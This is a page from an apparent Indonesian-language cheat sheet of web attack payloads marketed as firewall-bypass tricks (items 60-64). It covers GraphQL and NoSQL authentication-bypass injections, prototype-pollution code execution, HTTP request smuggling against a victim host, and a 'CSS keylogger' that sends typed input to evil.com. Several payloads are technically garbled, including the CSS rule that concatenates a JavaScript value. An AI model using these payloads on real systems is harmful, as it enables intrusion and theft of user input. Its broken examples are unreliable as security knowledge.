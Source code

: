 
### **🛡️ 60. GraphQL Injection**  
```graphql
{
  user(id: "1' OR '1'='1") {
    id
    username
    password
  }
}
```
**📌 Teknik:**  
✅ **GraphQL Injection** = Mengeksploitasi query GraphQL untuk bypass autentikasi.  
✅ **Bypass WAF** karena menggunakan sintaks GraphQL yang sah.  

---

### **🛡️ 61. JavaScript Prototype Pollution for RCE**  
```js
Object.prototype.constructor.constructor('alert(1)')();
```
**📌 Teknik:**  
✅ **Prototype Pollution** = Mengeksploitasi manipulasi objek bawaan JavaScript.  
✅ **Bypass WAF** dengan teknik non-tradisional.  

---

### **🛡️ 62. HTTP Request Smuggling via Content-Length Trick**  
```http
POST / HTTP/1.1
Host: victim.com
Content-Length: 10

GET /admin HTTP/1.1
```
**📌 Teknik:**  
✅ **HTTP Smuggling** = Memanipulasi header untuk menyembunyikan permintaan ilegal.  
✅ **Bypass WAF** dengan mengelabui parsing HTTP.  

---

### **🛡️ 63. NoSQL Injection Bypass via Regex Query**  
```json
{"username": {"$regex": ".*"}, "password": {"$ne": ""}}
```
**📌 Teknik:**  
✅ **NoSQL Injection** = Mengeksploitasi MongoDB dengan regex query.  
✅ **Bypass WAF** karena terlihat seperti query JSON biasa.  

---

### **🛡️ 64. CSS Keylogger via Animation Exploit**  
```css
@keyframes x{0%{background:url('http://evil.com?key='+document.activeElement.value)}}
```
**📌 Teknik:**  
✅ **CSS Keylogger** = Menggunakan animasi CSS untuk mencuri input pengguna.  
✅ **Bypass WAF** karena hanya terlihat seperti CSS biasa.  

---
